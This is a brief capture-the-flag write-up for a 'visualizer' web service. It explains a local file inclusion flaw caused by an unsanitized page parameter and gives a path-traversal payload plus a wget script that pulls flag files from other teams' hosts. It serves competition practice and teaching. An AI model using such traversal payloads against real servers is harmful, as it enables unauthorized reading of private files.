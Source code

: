 Visualizer writeup
===========
### Vulnerability
There is local file inclusion vulnerability in visualizer system. \
The vulnerability originates from `static_page` in `web/web.py`, since it
does not check or sanitize `page` GET parameter.

### Payload
`http://10.0.101.103/get?page=../../../../var/ctf/flag`

### Full Exploit Code
Simple bash script using `wget` is sufficient.
```bash
wget http://10.0.102.103/get?page=../../../../var/ctf/flag -O flag_viz_team2
wget http://10.0.103.103/get?page=../../../../var/ctf/flag -O flag_viz_team3
wget http://10.0.104.103/get?page=../../../../var/ctf/flag -O flag_viz_team4
wget http://10.0.105.103/get?page=../../../../var/ctf/flag -O flag_viz_team5
wget http://10.0.106.103/get?page=../../../../var/ctf/flag -O flag_viz_team6
```
